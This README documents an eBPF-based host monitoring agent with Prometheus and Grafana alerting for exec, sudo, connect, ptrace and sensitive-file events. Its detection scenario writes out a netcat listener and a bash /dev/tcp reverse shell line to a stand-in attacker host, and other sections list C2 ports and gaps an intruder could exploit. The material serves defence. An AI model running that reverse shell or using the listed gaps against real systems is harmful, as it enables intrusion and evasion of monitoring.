









# eBPF Security Monitoring System

[](https://opensource.org/licenses/MIT)
[](https://golang.org/)
[](https://www.kernel.org/)
[](https://ebpf.io/)

A real-time security monitoring solution using eBPF (Extended Berkeley Packet Filter) to track system events and detect potential security threats. The system monitors command executions, privilege escalations, and sensitive file access attempts.

## Table of Contents

- [Why eBPF?](#why-ebpf)
- [MITRE ATT&CK Coverage](#mitre-attck-coverage)
- [Screenshots](#screenshots)
- [Features](#features)
- [Architecture](#architecture)
- [Prerequisites](#prerequisites)
- [Quick Start](#quick-start)
- [Configuration](#configuration)
- [Metrics](#metrics)
- [Reverse Shell Detection Scenario](#reverse-shell-detection-scenario)
- [Development](#development)
- [Troubleshooting](#troubleshooting)
- [What This Doesn't Detect](#what-this-doesnt-detect)
- [Security Considerations](#security-considerations)
- [Contributing](#contributing)
- [License](#license)

## Why eBPF?

Traditional security monitoring tools often rely on user-space instrumentation, which can be:
- **Bypassed**: Malicious actors can detect and evade user-space monitoring
- **Resource-intensive**: High CPU and memory overhead
- **Incomplete**: Miss events that occur at the kernel level

eBPF provides:
- ✅ **Kernel-level visibility**: Cannot be bypassed by user-space processes
- ✅ **Zero overhead**: Runs directly in the kernel with minimal performance impact
- ✅ **Safe**: eBPF verifier ensures programs cannot crash the kernel
- ✅ **Real-time**: Immediate event detection without polling

## MITRE ATT&CK Coverage

This agent maps to the following MITRE ATT&CK techniques:

| Technique ID | Name | Agent Coverage |
|---|---|---|
| T1059 | Command and Scripting Interpreter | `execve` tracing — all command executions are counted and logged |
| T1548 | Abuse Elevation Control Mechanism | `sudo` path detection + `setuid()`/`setgid()` tracing |
| T1003 | OS Credential Dumping | `openat()` on `/etc/shadow`, `/etc/passwd` reads |
| T1055 | Process Injection | `ptrace()` tracing — detects PTRACE_ATTACH and similar |
| T1071 | Application Layer Protocol (C2) | `connect()` tracing — flags connections to known C2 ports (4444, 1337, etc.) |
| T1078 | Valid Accounts | `openat()` on `/etc/sudoers`, `~/.ssh/authorized_keys` |

## Architecture


```mermaid
graph TB
    subgraph Host["Host Server (Linux Kernel 5.8+)"]
        subgraph KS["Kernel Space"]
            TP_EXEC["tracepoint: sys_enter_execve"]
            TP_CONN["tracepoint: sys_enter_connect"]
            TP_PTRACE["tracepoint: sys_enter_ptrace"]
            TP_OPEN["tracepoint: sys_enter_openat"]
            TP_SUID["tracepoint: sys_enter_setuid/setgid"]

            BPF_EXEC["eBPF: trace_exec"]
            BPF_CONN["eBPF: trace_connect"]
            BPF_PTRACE["eBPF: trace_ptrace"]
            BPF_OPEN["eBPF: trace_openat"]
            BPF_SUID["eBPF: trace_setuid/setgid"]

            MAPS["Per-CPU Maps\nexec_counter | sudo_counter | passwd_read_counter\nconnect_counter | suspicious_connect_counter\nptrace_counter | sensitive_file_counter\nsetuid_counter | setgid_counter"]

            TP_EXEC --> BPF_EXEC --> MAPS
            TP_CONN --> BPF_CONN --> MAPS
            TP_PTRACE --> BPF_PTRACE --> MAPS
            TP_OPEN --> BPF_OPEN --> MAPS
            TP_SUID --> BPF_SUID --> MAPS
        end

        subgraph US["User Space"]
            AGENT["Go Agent\n(config-driven)"]
            CONFIG["config.yaml"]
            HTTP[":9110/metrics\n(optional TLS + basic auth)"]

            CONFIG --> AGENT
            MAPS -.->|"poll every 1s"| AGENT
            AGENT --> HTTP
        end
    end

    subgraph MON["Monitoring Server (Docker)"]
        PROM["Prometheus\n:9090"]
        GRAFANA["Grafana\n:3000"]
        ALERTS["Alert Rules\n(dynamic baselines)"]

        HTTP -->|"scrape"| PROM
        PROM --> GRAFANA
        PROM --> ALERTS
    end
```

This project consists of two main components:

### 1. Host Agent (`host/ebpf-agent`)
A config-driven eBPF monitoring agent that runs on Linux hosts. Tracepoints and metrics are defined in `config.yaml`. Currently monitors:
- All command executions (`execve` syscalls) with process lineage
- Sudo privilege escalation attempts
- `/etc/passwd` file read attempts (via `cat` or `sudo cat`)
- Outbound network connections (`connect()`) with suspicious C2 port flagging
- Process injection / debugger attachment (`ptrace()`)
- Sensitive file access (`openat()` on `/etc/shadow`, `/etc/sudoers`, `~/.ssh/authorized_keys`)
- Privilege escalation via `setuid()` / `setgid()` syscalls

Each feature can be toggled at compile time via Makefile flags. The agent exposes metrics via Prometheus format on a configurable port (default 9110), with optional TLS and basic auth.

### 2. Monitoring Stack (`monitoring`)
A complete monitoring infrastructure using Docker Compose:
- **Prometheus**: Metrics collection and alerting
- **Grafana**: Visualization and dashboards

## Screenshots

### Grafana Dashboard

*Real-time visualization of system security events with custom Grafana dashboard*

### eBPF Agent Running

*The eBPF agent actively monitoring execve syscalls and logging security events*

### Prometheus Metrics Endpoint

*Raw Prometheus metrics exposed by the eBPF agent on port 9110*

### Prometheus Metrics Query

*Querying and visualizing metrics in Prometheus*

### eBPF Map Inspection

*Inspecting eBPF maps using bpftool to verify kernel-level data collection*

### Docker Services

*Monitoring stack services running via Docker Compose*

## Features

- **Config-Driven**: Define tracepoints and metrics in YAML — no Go code changes needed
- **Compile-Time Feature Flags**: Toggle detection modules via Makefile (`MONITOR_EXEC=0 make bpf`)
- **Real-time Monitoring**: eBPF tracepoints for zero-overhead kernel-level monitoring
- **Network Visibility**: Outbound connection tracking with C2 port detection
- **Process Injection Detection**: ptrace() monitoring for debugger/injector detection
- **Sensitive File Monitoring**: Tracks access to /etc/shadow, /etc/sudoers, authorized_keys
- **Privilege Escalation**: Detects sudo, setuid(), and setgid() calls
- **Dynamic Alerting**: Rolling baseline alerts using Prometheus rate() and avg_over_time()
- **Security Hardening**: Optional TLS and basic auth on the metrics endpoint
- **Prometheus Integration**: Standard metrics format for easy integration
- **Graceful Shutdown**: Signal handling for clean tracepoint detachment

## Prerequisites

### Host Agent
- Linux kernel 5.8+ (with eBPF support)
- Go 1.24+
- clang and llvm (for compiling eBPF programs)
- Kernel headers installed

### Monitoring Stack
- Docker and Docker Compose
- Network access to monitored hosts

## Quick Start

### 1. Deploy the Host Agent

On the host you want to monitor:

**Option A: Automated Installation (Recommended)**

```bash
# Clone the repository
git clone https://github.com/gr8pr1/ebpf-host-monitor.git
cd ebpf-host-monitor

# Run the quick-start script
sudo ./scripts/quick-start.sh
```

The script will:
- Install required dependencies
- Check kernel compatibility
- Build the eBPF agent
- Optionally install as a systemd service

**Option B: Manual Installation**

```bash
cd host/ebpf-agent

# Build the agent
make all

# Run manually
sudo ./ebpf-agent

# OR install as a service
make install
```

The agent will start monitoring and expose metrics on `http://localhost:9110/metrics`.

### 2. Deploy the Monitoring Stack

On your monitoring server:

```bash
cd monitoring/Docker/compose

# IMPORTANT: Edit prometheus.yml first
nano prometheus/prometheus.yml
# Replace YOUR_HOST_IP with your actual host IP

# Start all services
docker-compose up -d

# Verify services are running
docker-compose ps
```

Access the services:
- **Prometheus**: http://localhost:9090
- **Grafana**: http://localhost:3000 (default credentials: admin/admin)

### 3. Verify Everything Works

```bash
# On the host, check metrics
curl http://localhost:9110/metrics

# Generate some test events
ls
sudo ls
cat /etc/passwd

# Check Prometheus targets (should show "UP")
# Visit: http://localhost:9090/targets

# View metrics in Prometheus
# Visit: http://localhost:9090/graph
# Query: ebpf_exec_events_total
```

## Configuration

### Host Agent

The agent is configured via `config.yaml`. Key sections:

```yaml
server:
  port: 9110
  metrics_path: /metrics
  tls:
    enabled: false
    cert_file: ""
    key_file: ""
  basic_auth:
    enabled: false
    username: ""
    password: ""

poll_interval: 1s

tracepoints:
  - group: syscalls
    name: sys_enter_execve
    program: trace_exec
  # ... additional tracepoints

metrics:
  - name: ebpf_exec_events_total
    help: "Total execve events recorded by eBPF"
    bpf_map: exec_counter
  # ... additional metrics
```

To add a new metric, add the BPF map in the C code, add the metric entry in `config.yaml`, and rebuild.

To disable a detection module at compile time:
```bash
make bpf MONITOR_CONNECT=0 MONITOR_PTRACE=0
```

Available feature flags: `MONITOR_EXEC`, `MONITOR_SUDO`, `MONITOR_PASSWD`, `MONITOR_CONNECT`, `MONITOR_PTRACE`, `MONITOR_OPENAT`, `MONITOR_SETUID`.

### Monitoring Stack

**Important**: Before starting the monitoring stack, you must update the target host IP addresses in `monitoring/Docker/compose/prometheus/prometheus.yml`:

```yaml
scrape_configs:
  - job_name: 'ebpf_agent'
    static_configs:
      - targets: ['YOUR_HOST_IP:9110']  # Replace with your actual host IP (e.g., 192.168.1.100:9110)
```

Replace `YOUR_HOST_IP` with the IP address of the server where the eBPF agent is running.

### Alert Rules

Pre-configured alerts in `monitoring/Docker/compose/prometheus/rules/alerts.yml`:

- **EBPFExporterDown**: Agent is unreachable (critical)
- **HighExecutionRate**: Exec rate 1.5x above rolling 1h baseline for 2 minutes (warning)
- **CriticalExecutionSpike**: Exec rate 3x above baseline for 1 minute (critical)
- **SudoUsageDetected**: Any sudo command execution (info)
- **RapidSudoUsage**: >0.1 sudo/sec for 2 minutes (warning)
- **SetuidDetected / SetgidDetected**: Any setuid()/setgid() call (warning)
- **PasswdReadDetected**: /etc/passwd read (warning)
- **SensitiveFileAccess**: Access to /etc/shadow, /etc/sudoers, authorized_keys (warning)
- **RapidSensitiveFileAccess**: Repeated sensitive file access (critical)
- **SuspiciousOutboundConnection**: Connection to known C2 port (critical)
- **HighOutboundConnectRate**: Connect rate 1.5x above baseline (warning)
- **PtraceDetected**: Any ptrace() call (critical)
- **RapidPtraceUsage**: Multiple ptrace() calls (critical)

Alerts use dynamic rolling baselines via `rate()` and `avg_over_time()` instead of hardcoded thresholds where applicable.

## Metrics

The eBPF agent exposes the following Prometheus metrics:

| Metric | Type | Description |
|--------|------|-------------|
| `ebpf_exec_events_total` | Counter | Total number of execve syscalls |
| `ebpf_sudo_events_total` | Counter | Total sudo command executions |
| `ebpf_passwd_read_events_total` | Counter | Total /etc/passwd read attempts |
| `ebpf_connect_events_total` | Counter | Total outbound connect() syscalls |
| `ebpf_suspicious_connect_events_total` | Counter | Connections to suspicious C2 ports (4444, 1337, 5555, 6666, 8443, 1234, 31337) |
| `ebpf_ptrace_events_total` | Counter | Total ptrace() syscalls (process injection/debugger) |
| `ebpf_sensitive_file_access_total` | Counter | openat() on /etc/shadow, /etc/sudoers, authorized_keys |
| `ebpf_setuid_events_total` | Counter | Total setuid() syscalls |
| `ebpf_setgid_events_total` | Counter | Total setgid() syscalls |

All metrics are defined in `config.yaml` and registered dynamically at startup.

## Reverse Shell Detection Scenario

This is an end-to-end example of how the agent detects a reverse shell attack.

**1. Attacker sets up a listener:**
```bash
# On attacker machine
nc -lvnp 4444
```

**2. Victim executes a reverse shell (e.g., via a compromised web app):**
```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

**3. What the agent sees (in order):**

| Time | Event | Metric Incremented |
|------|-------|--------------------|
| T+0s | `execve("bash", ...)` | `ebpf_exec_events_total` |
| T+0s | `connect(fd, {port=4444}, ...)` | `ebpf_connect_events_total` + `ebpf_suspicious_connect_events_total` |
| T+1s | Attacker runs `whoami` via shell | `ebpf_exec_events_total` |
| T+2s | Attacker runs `sudo su` | `ebpf_exec_events_total` + `ebpf_sudo_events_total` |
| T+3s | Attacker runs `cat /etc/shadow` | `ebpf_sensitive_file_access_total` |

**4. Alerts that fire:**

- `SuspiciousOutboundConnection` — fires immediately on the connect to port 4444 (critical)
- `SudoUsageDetected` — fires when attacker escalates privileges
- `SensitiveFileAccess` — fires on /etc/shadow read
- `HighExecutionRate` — may fire if attacker runs many commands

**5. Alert chain visualized:**


```mermaid
sequenceDiagram
    participant A as Attacker
    participant V as Victim Host
    participant BPF as eBPF Agent
    participant P as Prometheus
    participant G as Grafana

    A->>V: bash reverse shell (execve)
    V->>BPF: tracepoint: sys_enter_execve
    BPF->>BPF: exec_counter++

    V->>V: connect() to attacker:4444
    V->>BPF: tracepoint: sys_enter_connect
    BPF->>BPF: connect_counter++ & suspicious_connect_counter++

    P->>BPF: scrape /metrics
    P->>P: 🚨 SuspiciousOutboundConnection fires

    A->>V: sudo su
    V->>BPF: tracepoint: sys_enter_execve
    BPF->>BPF: exec_counter++ & sudo_counter++
    P->>BPF: scrape /metrics
    P->>P: 🚨 SudoUsageDetected fires

    A->>V: cat /etc/shadow (openat)
    V->>BPF: tracepoint: sys_enter_openat
    BPF->>BPF: sensitive_file_counter++
    P->>BPF: scrape /metrics
    P->>P: 🚨 SensitiveFileAccess fires

    P->>G: Alert notifications
    G->>G: Dashboard shows correlated spike
```

In Grafana, the dashboard would show a spike in exec events, a sudden connect to a C2 port, followed by sudo and sensitive file access — all correlated in time. This pattern is a strong indicator of a reverse shell with post-exploitation activity.

## Development

### Build Pipeline


```mermaid
graph LR
    subgraph Compile
        C["exec.bpf.c"] -->|"clang -target bpf\n+ feature flags"| OBJ["exec.bpf.o"]
        OBJ -->|"embed"| GO["main.go"]
        CFG["config.yaml"] -->|"parsed at runtime"| GO
        GO -->|"go build"| BIN["ebpf-agent"]
    end

    subgraph Runtime
        BIN -->|"loads BPF"| KERNEL["Kernel Tracepoints"]
        BIN -->|"serves"| METRICS[":9110/metrics"]
    end

    subgraph Flags["Makefile Feature Flags"]
        F1["MONITOR_EXEC=1"]
        F2["MONITOR_CONNECT=1"]
        F3["MONITOR_PTRACE=1"]
        F4["MONITOR_OPENAT=1"]
        F5["MONITOR_SETUID=1"]
        F1 & F2 & F3 & F4 & F5 -->|"-D flags"| C
    end
```

### Building the eBPF Program

```bash
cd host/ebpf-agent/bpf

# Compile the eBPF program
clang -O2 -g -target bpf -c exec.bpf.c -o exec.bpf.o
```

The compiled object is embedded in the Go binary at build time.

### Inspecting eBPF Maps

You can inspect the eBPF maps directly using `bpftool`:

```bash
# List all eBPF programs
sudo bpftool prog list

# List all eBPF maps
sudo bpftool map list

# Dump map contents
sudo bpftool map dump name exec_counter
sudo bpftool map dump name sudo_counter
sudo bpftool map dump name passwd_read_counter
```

This is useful for debugging and verifying that the kernel-level data collection is working correctly.

### Project Structure

```
.
├── host/
│   └── ebpf-agent/
│       ├── bpf/                    # eBPF C programs
│       │   ├── exec.bpf.c         # Main eBPF program (modular, ifdef-guarded)
│       │   ├── vmlinux.h          # Kernel type definitions
│       │   └── bpf_helpers.h      # eBPF helper functions
│       ├── cmd/agent/             # Agent entry point
│       │   ├── main.go            # Config-driven main application
│       │   └── bpf/exec.bpf.o    # Embedded eBPF object
│       ├── internal/
│       │   ├── config/            # YAML config parsing
│       │   │   ├── config.go
│       │   │   └── config_test.go
│       │   └── poller/            # Generic per-CPU map poller
│       │       └── poller.go
│       ├── config.yaml            # Agent configuration
│       ├── Makefile               # Build with feature flags
│       ├── ebpf-agent.service     # Systemd service file
│       ├── go.mod
│       └── go.sum
├── monitoring/
│   └── Docker/compose/
│       ├── docker-compose.yml
│       ├── prometheus/
│       │   ├── prometheus.yml     # Prometheus config
│       │   └── rules/alerts.yml   # Dynamic alert rules
│       └── grafana/
│           └── provisioning/      # Grafana datasources
├── screenshots/                   # Project screenshots
├── state.md                       # Project state and roadmap
├── DEPLOYMENT.md                  # Production deployment guide
└── CONTRIBUTING.md                # Contribution guidelines
```

## Troubleshooting

### Agent won't start
- Ensure you're running as root: `sudo ./ebpf-agent`
- Check kernel version: `uname -r` (needs 5.8+)
- Verify eBPF support: `zgrep CONFIG_BPF /proc/config.gz`

### No metrics in Prometheus
- **Check configuration**: Ensure you've replaced `YOUR_HOST_IP` with your actual host IP in `prometheus.yml`
- Verify agent is running: `curl http://YOUR_HOST_IP:9110/metrics`
- Check Prometheus targets: http://localhost:9090/targets (should show targets as "UP")
- Verify network connectivity between monitoring server and host
- Check firewall rules allow port 9110

### Alerts not firing
- Check Prometheus rules: http://localhost:9090/alerts
- Review alert configuration in `prometheus/rules/alerts.yml`
- Verify alert rules are loaded: http://localhost:9090/rules

## What This Doesn't Detect

This agent is counter-based and monitors specific syscalls. It does not:

- **Inspect packet payloads** — connect() tracing sees the destination port/IP but not the data being sent. Encrypted C2 over port 443 looks identical to normal HTTPS traffic.
- **Detect fileless malware** — if an attacker operates entirely in memory (e.g., memfd_create + execveat), the standard execve tracepoint won't fire.
- **Correlate events across hosts** — each agent is independent. A lateral movement chain across multiple hosts requires external correlation (e.g., in Grafana/SIEM).
- **Monitor container-level isolation** — the agent sees all syscalls on the host kernel. It doesn't distinguish between container namespaces without additional PID/cgroup filtering.
- **Detect kernel rootkits** — if an attacker loads a malicious kernel module that hooks syscalls before the eBPF tracepoint, events can be hidden.
- **Track DNS queries** — no DNS-level monitoring. C2 over DNS tunneling would not be flagged.
- **Monitor file writes** — only openat() reads on specific sensitive files are tracked. Writes to arbitrary files (e.g., dropping a webshell) are not detected.
- **Detect LD_PRELOAD / library injection** — shared library hijacking doesn't trigger ptrace() and may not trigger execve().

## Security Considerations

- The eBPF agent requires root privileges to attach to kernel tracepoints
- Metrics may contain sensitive information about system activity
- Secure the Prometheus and Grafana endpoints in production
- Consider using TLS for metrics endpoints
- Implement proper authentication for Grafana

## Additional Documentation

- **[DEPLOYMENT.md](DEPLOYMENT.md)**: Production deployment guide with security hardening
- **[CONTRIBUTING.md](CONTRIBUTING.md)**: Guidelines for contributing to the project
- **[host/ebpf-agent/README.md](host/ebpf-agent/README.md)**: Detailed agent documentation
- **[monitoring/README.md](monitoring/README.md)**: Monitoring stack documentation

## Related Resources

- [eBPF Documentation](https://ebpf.io/)
- [Cilium eBPF Library](https://github.com/cilium/ebpf)
- [Prometheus Documentation](https://prometheus.io/docs/)
- [Grafana Documentation](https://grafana.com/docs/)
- [BPF Performance Tools](http://www.brendangregg.com/bpf-performance-tools-book.html)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contributing

Contributions are welcome! Please read [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on how to contribute to this project.

## Acknowledgments

- Built with [Cilium eBPF](https://github.com/cilium/ebpf) library
- Inspired by modern observability and security monitoring practices
- Thanks to the eBPF community for excellent documentation and tools
